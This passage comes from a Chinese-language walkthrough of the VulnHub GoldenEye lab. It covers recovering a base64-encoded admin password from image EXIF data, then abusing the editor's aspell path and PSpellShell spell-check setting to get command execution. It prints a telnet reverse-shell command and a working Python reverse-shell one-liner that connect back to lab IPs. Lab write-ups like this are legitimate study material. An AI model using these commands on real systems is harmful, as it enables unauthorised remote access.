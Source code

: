 ![](D:\stu\vulnhub\OSCP必刷靶场\goldeneye靶场\pic\21.jpg)

把这个图片下载到`kali`中，然后使用`exiftool`查看图片属性等，看有无隐藏信息，发现图片描述信息，经过编码处理，这里一眼`base64`，进行解码，发现字符`xWinter1995x!`，这个可能就是管理员`admin`的密码

![](D:\stu\vulnhub\OSCP必刷靶场\goldeneye靶场\pic\22.jpg)

以管理员`admin`和密码`xWinter1995x!`再次登录这个网站，发现成功

# 反弹shell

登陆后到处测试，发现在添加处，可以有检测字符拼写的操作

![](D:\stu\vulnhub\OSCP必刷靶场\goldeneye靶场\pic\23.jpg)

然后继续寻找，唉，真的是漫长啊，发现一个路径，根据提示来看，翻译一下

> 要在编辑器中使用拼写检查功能，你的服务器上必须安装 aspell 0.50 或更高版本，并且你必须指定正确路径来访问 aspell 二进制文件。在 Unix/Linux 系统上，该路径通常是 /usr/bin/aspell，但也可能是其他路径。

![](D:\stu\vulnhub\OSCP必刷靶场\goldeneye靶场\pic\24.jpg)

猜测这个路径就是前面编辑器中的拼写检测所指向的路径，观察这个命令，感觉这个地方可以写入`webshell`

```shell
sh -c '(sleep 4062|telnet 192.168.230.132 4444|while : ; do sh && break; done 2>&1|telnet 192.168.230.132 4444 >/dev/null 2>&1 &)'
```

不过在进行多次尝试，发现各种语言、命令的反弹`shell`都无效，感觉不对，暂时放置，继续寻找

在插件处，发现多个插件，其中有文本编辑的插件，打开设置，发现可以选择拼写引擎，默认的是`google spell`

![](D:\stu\vulnhub\OSCP必刷靶场\goldeneye靶场\pic\25.jpg)



`ai`搜索一下，三者的差别

> - **Google Spell**：对于普通用户来说，无需额外安装和配置，只要使用 Google 的搜索服务或相关应用，拼写检查功能就会自动生效，使用起来非常便捷。
> - **PSpell**：需要在编程环境中进行安装和配置，对于开发者来说，需要一定的编程知识和技能来在代码中正确地调用和使用 PSpell 的功能。
> - **PSpellShell**：虽然使用命令行进行操作，但对于熟悉命令行的用户来说，它提供了一种快速、便捷的方式来进行拼写检查，无需编写复杂的代码。只需要在命令行中输入相应的命令和参数，即可立即得到拼写检查的结果。

那么设置为`PSpellShell`，因为这个可以输入命令，那么这个命令假如为反弹`shell`的命令呢



那么回到之前指定拼写路径的位置，尝试写入反弹`shell`，测试众多命令，最终使用`python`脚本反弹成功

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

这里可以借助网站`https://forum.ywhack.com/reverse-shell/`生成，方便

![](D:\stu\vulnhub\OSCP必刷靶场\goldeneye靶场\pic\26.jpg)

